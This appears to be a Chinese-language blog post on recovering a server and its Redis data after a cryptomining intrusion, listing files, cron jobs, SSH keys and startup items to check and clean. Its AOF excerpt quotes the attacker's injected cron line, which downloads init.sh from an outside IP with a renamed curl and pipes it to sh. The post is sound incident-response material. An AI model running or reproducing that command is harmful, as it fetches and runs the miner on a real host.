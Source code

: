 ## 2 被攻击后的处理

注意！如果你的Redis访问量比较大或者aof文件重新触发的阈值比较低，在受到攻击后请立刻关闭redis，避免aof文件被重写造成数据无法恢复的后果。

先用top指令或ps aux指令或pstree查看异常进程，kill掉对应进程。注意这些指令很可能被掉包导致异常，如果指令无法执行，请先执行下面的步骤。

根据百度到的全部信息，我检查了以下内容

+ /etc/newinit.sh 执行挖矿任务的脚本，同时会kill掉其他进程，比如阿里云的云盾、nginx、其他挖矿进程（挖矿也内卷），并添加sshkey到服务器中。

  + 可以先重启阿里云的云盾等服务，可以下载看挖矿脚本的前面几十行，一般都是先关掉防护，对应重新打开相应服务即可。

+ /etc/cron.d 定时任务路径，检查里面是否有异常文件，如果没设置过建议全删

  + 还有cron.daily hourly...等

+ /etc/ 下是否有异常的脚本，或者叫zzh之类的文件，如果有删除即可，删不了先用lsattr看看有哪些隐藏属性，然后用chattr解锁，还有删不了的用chmod命令试试看。再不行可以试试chattr +ai 文件名重新加锁，然后再重新解锁，或许就能删除了。

+ **/root/.ssh/authorized_keys **  ssh文件，一般会被植入攻击者的公钥，记得删除。如果下面有攻击者的公钥并且服务器允许ssh，那么不用密码就可以直接进入服务器，非常危险。我在里面发现了和网络上那些被攻击的服务器一样的ssh key，果断直接删除整个authorized_keys文件

+ **/root/.ssh/known_hosts**  中是否有未知的hosts

+ /etc/sysconfig/iptables 可疑地址和端口

+ /etc/rc.local，/etc/rc.sysinit，/etc/inittab，/etc/profile 等开机启动项中，是否有异常。

+ systemctl list-unit-files 查看是否有异常的开机服务，如有通过chkconfig 服务名 off关闭

+ 可以find一下所有的.sh结尾的文件 确认一下没有异常的文件。

+ 可以ll 查看文件详细信息，通过检查文件的时间判断是不是攻击者写入的文件

+ 备份挖矿的脚本，分析挖矿脚本内容，重开被脚本杀掉的其他服务。我通过分析脚本发现一些命令被mv到其他文件夹了，如有请恢复。

  + 由于挖矿脚本中涉及到的内容非常长，此处不再列出，[可以点击这里查看其它博主的详细分析](https://www.renfei.net/posts/1003501),或自己下载对应脚本分析其中的内容。

+ 重启服务器，检查服务器状态。

    

    
  
    

## 3 Redis的恢复
被攻击后Redis的数据会被清空，并被写入特殊的key，可以keys  \* 查看所有的keys，可能有backup1之类的key，全部删掉，然后kill掉redis。此时redis的rdb备份文件路径一定被篡改到了crontab或者.ssh之类的文件夹里，不过只要配置文件没被改动，重启后会直接按配置文件重新加载。你需要找到redis的aof文件，可以下下来用vscode之类的工具打开（对vim操作熟悉的也可以直接用vim操作），直接查找flushall来定位位置，然后把那一块附近的异常代码删除。

通常如下。

```
flushall 
*3  #*3表示下面有三个操作字符串 此处是set backup1 */2那一坨
$3 # $3表示下面那个字符串长度为3
set
$7
backup1
$75



*/2 * * * * cd1 -fsSL http://194.87.139.103:8080/cleanfda/init.sh | sh

......

```
